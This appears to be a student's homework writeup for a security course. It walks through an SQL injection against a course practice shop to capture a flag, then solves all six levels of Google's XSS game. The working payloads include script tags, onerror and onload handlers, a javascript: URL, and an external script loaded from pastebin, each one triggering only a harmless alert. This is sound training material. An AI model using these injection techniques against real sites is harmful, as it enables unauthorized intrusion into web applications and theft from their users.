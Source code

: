 # Web

## Part 1

Mark Thompson is back again! This time, you've found his online shop, but it is clear that he is still developing it. Show him that his site is vulnerable!

https://bigbenbargains.biz/briongshop

Submit the usual CMSC389R flag with your writeup to demonstrate that you successfully completed the homework assignment.


I began with trying an xss attack by adding this to the URL ```https://bigbenbargains.biz/briongshop/item?id=<script>alert('OhNo!');</script>```, this seemed to cause a server error:

![alt text](https://github.com/yreiss1/Web/blob/master/Server%20Error.png)


Next, I built upon my assumption that all the "items" and their information were stored in an SQL table somewhere, so I thought using some sort of SQL injection could work. I began buidling my injection by taking the SQL injection from the slides and modifying it to get this URL: ```https://bigbenbargains.biz/briongshop/item?id=1' OR '1'='1' -- -``` hoping that I could get ```id``` to evaluate to true, and then dump all the information. This proved succesful and I got this page with this flag: ```CMSC389R-{u_ar3_th3_SQL_ninja}``` 

![alt text](https://github.com/yreiss1/Web/blob/master/Flag.png)


## Part 2

Complete all 6 levels of:

https://xss-game.appspot.com/

#### Level 1

In order to beat this level, I tried querieng many things in the search bar, but realizing that I had to run a script with an alert in it I simply queried ```<script>alert()</script>``` in the applications search bar, to my surprise this was the correct answer and allowed me to move on to the next level!

#### Level 2

This level was more difficult to figure out than the last one, initially I tried to insert ```<script>alert();<\script>``` as a new status and in the URL, neither of these seemed to work. I tried an SQL injection using ```'1'='1' -- -``` just like I did in part 1 of this assignment, and that didn't work. While, looking at the source code I noticed that they did not do a good job of sanitizing input, and if I couldnt run javascript the same way I ran in Level 1 that I could hide it in some other form. In order to do this I simply added ```onerror = alert()``` to the URL which would run the javascript alert when the application encountered an error. Using this I suceeded and was allowed to move to the 3rd level.

![alt text](https://github.com/yreiss1/Web/blob/master/Level2.png)


### Level 3

For this level, I used a hint that told me ```To locate the cause of the bug, review the JavaScript to see where it handles user-supplied input.```, so I looked over the code and realized this line: ```html += "<img src='/static/level3/cloud" + num + ".jpg' />";``` had a potential vulnerability. I could cause the image source to be something non-existant and then use ```onerror = alert();``` to be able to create an alert. My first attempt I used this URL: ```https://xss-game.appspot.com/level3/frame#' onerror = alert()``` but got this page:

![alt text](https://github.com/yreiss1/Web/blob/master/Level3.png)

But after realizing that I needed to format the html element in a way that would be equivelent to ```html += "<img src='/static/level3/cloud" + num + ".jpg' />";```, I used this to produce the desired result: ```https://xss-game.appspot.com/level3/frame#0.jpg' onerror=alert();'```

### Level 4

For this level I took what I learned from the last level and searched for where the user input was bieng handled, I located one line of code that could be potentially vulnerable: ```<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />```. I thought that if I could replace the user input {{timer}} with something that would run my alert. So after some trial and error I used ```')alert('``` to produce the desired result.

### Level 5

Originally I tried injecting new things into the sign up bar, just like the previous few levels, but after a long run of unsuccesful attempts, I decided to try a different approach, the only other vulnerabilities I could think of is changing authorization using cookies, or manipulating the URL. Cookies were not relevant here so I tried messing with the URL, while looking over the code I noticed the ```next``` parameter would change with each new template render, so I thought i'd target that. I tried substituting ```alert()``` for confirm in the URL: ```https://xss-game.appspot.com/level5/frame/signup?next=confirm```, but this did not work. I noticed that I needed some way for the alert() to actually run, and not be just treated as part of the URL. So after some research I discovered that I could use ```javascript:alert()``` to achieve what I wanted to do, using this URL I managed to beat this level: ```https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()```

### Level 6

For this level I realized that the only way to solve I was to manipulate the URL in some way so that it would run a external script. Glancing over the code I realized that the application was checking for any inputs containing ```http``` or ```https```, I also saw this block of code:

```
// Take the value after # and use it as the gadget filename.
    function getGadgetName() { 
      return window.location.hash.substr(1) || "/static/gadget.js";
    }
```

that led me to believe that I could use a site like pastebin to host my code, which would simply be comprised of ```alert("Hello")``` and then paste it in after ```frame#``` to get the solution, using this I was able to pass this level:

```https://xss-game.appspot.com/level6/frame#//pastebin.com/raw/9sjtF2zG```


Here is the final picture!:

![alt text](https://github.com/yreiss1/Web/blob/master/Final.png)



